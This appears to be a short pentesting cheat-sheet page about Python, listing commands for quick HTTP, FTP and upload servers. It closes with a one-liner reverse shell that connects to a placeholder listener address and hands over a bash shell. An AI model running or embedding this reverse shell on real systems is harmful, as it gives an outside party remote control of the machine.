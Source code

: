 ```yaml
---
title : "Python"
# pre : ' '
description : "Python is a programming language that lets you work quickly and integrate systems more effectively."
date : 2022-12-05T09:22:16+01:00
# hidden : true
# draft : true
weight : 0
tags : ['Python2', 'Python3', 'FTP', 'HTTP']
---
```


## Python

Python is a programming language that lets you work quickly and integrate systems more effectively.

## Python Web Server

Serving files with local web server.

Python2

```plain
python2 -m SimpleHTTPServer 9090
```

Python3

```plain
python3 -m http.server 9090
```

## Python2/3 FTP Server

Requires: `python2 -m pip install pyftpdlib` / `python3 -m pip install pyftpdlib`

**Note:** By default this will allow *anonymous* login. To use username/password based authentication, please use the `-u USERNAME` and `-P PASSWORD` flags.

```plain
python2 -m pyftpdlib -p 21 -w
```

```plain
python3 -m pyftpdlib -p 21 -w
```

## Python3 Web Server with Upload

Download script [here](https://gist.github.com/crypt0rr/19f009c90205697ef26ab1fd82c26903).

```plain
python3 HTTPServerWithUpload.py -p 80
python3 HTTPServerWithUpload.py --port 80
```

## Python2 One-Liner Reverse Shell

```plain
python2.7 -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<<LISTERNER-IP>>",<<LISTERNER-PORT>>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

## URL list

- [Python.org](https://www.python.org/)
